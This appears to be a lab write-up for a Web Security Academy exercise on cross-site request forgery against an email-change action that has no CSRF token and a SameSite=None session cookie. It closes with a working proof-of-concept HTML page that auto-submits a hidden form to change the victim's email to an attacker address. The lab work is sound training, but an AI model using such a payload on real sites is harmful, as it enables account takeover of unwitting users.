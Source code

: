 <h1>Cross Site Request Forgery On Action With No CSRF Defenses</h1>

Scenario: I am testing the data integrity of a website located at 0a9c0040032ee23d80cffea8007e0099.web-security-academy[.]net. 
I want to know if any sensitive authenticated actions on the website are vulnerable to Cross Site Request Forgery (CSRF). Let's follow 
the checks below to find a CSRF vulnerability.

1. Check the SameSite attribute of the session cookie(s).
   ![image](https://github.com/user-attachments/assets/5160e69c-d267-4fc6-847f-4b0a825d7df4)

   As you can see, upon logging into the target website, my session cookie has the SameSite attribute set to 'None'. This means
   my session cookie can be used in cross-site requests.
2. Are there any authenticated actions that are not protected with CSRF tokens? Analyze the following process of changing a user's
   email address on the target website
   ![image](https://github.com/user-attachments/assets/4fc97bec-77c6-4fcb-9e2e-c1a027a6339d)
   ![image](https://github.com/user-attachments/assets/4900c730-d9c1-472e-956b-76af05b9edb9)
   ![image](https://github.com/user-attachments/assets/184b4c89-564f-4892-a4b4-2c6a390c0144)

   Notice that the user's email address is updated with an HTTP POST request that does not include any CSRF protection tokens in the request.

**We can now determine that the authenticated action of "Update email" on the target website is vulnerable to CSRF**

<h1>Proof Of Concept</h1>
To make a user change their email address on 0a9c0040032ee23d80cffea8007e0099.web-security-academy[.]net, an attacker can host the following file on their malicious domain. When the
victim user visits the attacker's domain, their email address will be changed.

```
<!DOCTYPE html>
<html>
<body>
      <form action="https://0a9c0040032ee23d80cffea8007e0099.web-security-academy.net/my-account/change-email" method="POST">
        <input type="hidden" name="email" value="yougotpwned@evil-user.net">
      </form>
    <script>
        document.forms[0].submit();
    </script>
</body>
</html>
```

